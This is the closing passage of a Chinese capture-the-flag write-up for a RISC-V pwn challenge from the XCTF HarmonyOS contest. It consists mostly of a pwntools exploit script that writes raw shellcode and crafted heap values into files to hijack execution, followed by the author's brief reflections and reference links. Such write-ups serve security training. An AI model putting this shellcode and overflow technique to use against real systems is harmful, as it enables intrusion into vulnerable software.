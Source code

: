 ```python
def touch(name):
	sla('$',b'touch '+name)

def rm(name):
	sla('$',b'rm '+name)
	
def echo1(name,con):
	sla('$',b'echo > '+name)
	time.sleep(0.5)
	sl(con)

def echo2(name,con):
	sla('$',b'echo >> '+name)
	time.sleep(0.5)
	sl(con)

shellcode =  b'\x01\x11\x06\xec\x22\xe8\x13\x04'
shellcode += b'\x21\x02\xb7\x67\x69\x6e\x93\x87'
shellcode += b'\xf7\x22\x23\x30\xf4\xfe\xb7\x77'
shellcode += b'\x68\x10\x33\x48\x08\x01\x05\x08'
shellcode += b'\x72\x08\xb3\x87\x07\x41\x93\x87'
shellcode += b'\xf7\x32\x23\x32\xf4\xfe\x93\x07'
shellcode += b'\x04\xfe\x01\x46\x81\x45\x3e\x85'
shellcode += b'\x93\x08\xd0\x0d\x93\x06\x30\x07'
shellcode += b'\x23\x0e\xd1\xee\x93\x06\xe1\xef'
shellcode += b'\x67\x80\xe6\xff'

touch(b'X1ng')
touch(b'X2ng')
touch(b'X3ng')

echo1(b'X1ng',shellcode+b'a'*(0xff-len(shellcode)))
echo2(b'X1ng',p64(0)+p64(0x31)+p64(0x676e3258)+p64(0)+p64(0x40007ffed8)+p64(0x100))
echo1(b'X2ng',p64(0x25f10))

ia()
```





## 总结

还是第一次用原汁原味的gdb调试，后来才知道似乎很多师傅都是直接gdb看汇编+调试出来的，，tql or2

虽然都是很简单的利用，但是在代码量略大的情况下菜鸡如我就很难发现漏洞了，果然还是没有一双善于发现漏洞的眼睛



>参考资料
>
>[XCTF华为专场 三道RISC-V Pwn](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/28/riscv/#)
>
>[XCTF高校网络安全专题挑战赛-HarmonyOS和HMS专场 官方Writeup](https://www.xctf.org.cn/library/details/5acdc1c31cf4935ac38fce445978888a5710cf11/)
